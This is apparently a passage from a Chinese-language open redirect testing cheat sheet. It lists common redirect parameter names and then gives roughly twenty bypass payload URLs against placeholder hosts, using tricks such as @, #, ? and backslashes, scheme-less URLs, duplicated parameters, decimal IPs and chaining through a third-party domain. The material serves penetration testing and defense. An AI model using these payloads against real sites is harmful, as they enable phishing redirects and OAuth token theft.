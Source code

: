    ```
   redir=
   returl=
   share=
   wap=
   src=
   source=
   u=
   display=
   sourceURl=
   imageURL=
   linkurl=
   RedirectUrl=
   service=
   redirect_uri=
   destUrl=
   oauth_callback=
   oauth=
   goto=
   redirectUrl=
   callback=
   return_url=
   toUrl=
   ReturnUrl=
   fromUrl=
   redUrl=
   request=
   ```

3. bypass

   ```
   无协议头绕过
   https://debian.local/redirect.php?url=/www.example.com
   https://debian.local/redirect.php?url=\www.example.com
   https://debian.local/redirect.php?url=//www.example.com
   https://debian.local/redirect.php?url=///www.example.com
   https://debian.local/redirect.php?url=www.example.com
   @ 绕过 
   http://debian.local/redirect.php?url=http://debian.local@example.com
   ? 绕过
   http://debian.local/redirect.php?url=http://example.com?debian.local
   . 绕过
   http://debian.local/redirect.php?url=http://debian.local.example.com
   # 绕过
   http://debian.local/redirect.php?url=http://example.com#debian.local
   / 绕过，可以尝试多个正斜杠一起用，如/、//、///
   http://debian.local/redirect.php?url=http://example.com/debian.local
   \ 绕过
   http://debian.local/redirect.php?url=http://example.com\debian.local
   双写参数 绕过
   http://debian.local/redirect.php?url=http://debian.local&url=http://example.com
   进制 绕过
   http://debian.local/redirect.php?url=http://3232235777   
   （3232235777为IP地址192.168.1.1的十进制值
   以192.168.1.1为例，把它转为10进制数的公式是：
   192 * 256^3 + 168 * 256^2 +1 * 256 + 1 * 1 = 3232235777）
   第三方 绕过
   http://debian.local/redirect.php?url=https://www.example.com/link?url=yti8PhYOnbmJkgvkJj4P7iT4HLM4BO9pK0esOAK376K
   （假设网站是允许跳转example.com这个域名的，但不可跳转别的域名，那就可以借助example.com这个域名来实现跳转到其他网站）
   重复特殊字符绕过
   https://debian.local/redirect.php?url=//www.example.com//..
   https://debian.local/redirect.php?url=www.example.com//..
   ```
